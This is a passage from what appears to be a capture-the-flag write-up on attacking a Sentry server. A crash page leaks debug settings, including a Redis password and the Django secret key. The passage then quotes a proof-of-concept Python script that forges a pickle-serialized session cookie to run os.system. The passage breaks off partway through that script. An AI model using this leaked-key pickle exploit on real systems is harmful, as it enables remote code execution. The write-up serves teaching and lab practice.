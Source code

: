 ![image-20210714154941021](https://0xdfimages.gitlab.io/img/image-20210714154941021.png)

When I click Remove Project, the page crashes with a ton of debug information:

[![image-20210714154900857](https://0xdfimages.gitlab.io/img/image-20210714154900857.png)](https://0xdfimages.gitlab.io/img/image-20210714154900857.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210714154900857.png)

It’s not clear why this crashes, but it turns out this is the case on a default installation. There’s some really useful information in there:

```

SENTRY_OPTIONS 	

{'cache.backend': 'sentry.cache.redis.RedisCache',
 'cache.options': {},
 'redis.options': {'hosts': {0: {'host': '127.0.0.1',
                                 'password': 'g7dRAO6BjTXMtP3iXGJjrSkz2H9Zhm0CAp2BnXE8h92AOWsPZ2zvtAapzrP8sqPR92aWN9DA207XmUTe',
                                 'port': 6379}}},
 'system.databases': {'default': {'ATOMIC_REQUESTS': False,
                                  'AUTOCOMMIT': True,
                                  'CONN_MAX_AGE': 0,
                                  'ENGINE': 'sentry.db.postgres',
                                  'HOST': 'localhost',
                                  'NAME': 'sentry',
                                  'OPTIONS': {},
                                  'PASSWORD': u'********************',
                                  'PORT': '',
                                  'TEST_CHARSET': None,
                                  'TEST_COLLATION': None,
                                  'TEST_MIRROR': None,
                                  'TEST_NAME': None,
                                  'TIME_ZONE': 'UTC',
                                  'USER': 'sentry'}},
 'system.debug': True,
 'system.secret-key': 'c7f3a64aa184b7cbb1a7cbe9cd544913'}

```

`system.secret-key` is the Django secret.

#### Exploit

Googling for “Django secret rce”, the first links is to a post about [getting RCE on Facebook](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/). The author managed to crash one of their servers, and leak the secret just like I did above. There’s a simple POC script in the post:

```

#!/usr/bin/python
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
import cPickle
import os

SECRET_KEY='[RETRIEVEDKEY]'
#Initial cookie I had on sentry when trying to reset a password
cookie='gAJ9cQFYCgAAAHRlc3Rjb29raWVxAlgGAAAAd29ya2VkcQNzLg:1fjsBy:FdZ8oz3sQBnx2TPyncNt0LoyiAw'
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("sleep 30",))
```